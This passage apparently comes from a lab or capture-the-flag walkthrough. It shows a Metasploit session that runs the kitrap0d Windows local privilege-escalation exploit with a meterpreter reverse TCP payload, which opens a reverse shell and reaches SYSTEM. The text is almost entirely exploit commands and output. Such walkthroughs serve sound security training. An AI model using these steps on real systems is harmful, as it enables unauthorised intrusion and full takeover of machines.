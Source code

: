 Now we load up any of the exploits:

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.102.167  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => 10.10.14.17
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 1204 launched.
[*] Reflectively injecting the DLL into 1204...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.17:4444 -> 10.10.10.5:49182) at 2025-04-19 20:04:24 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
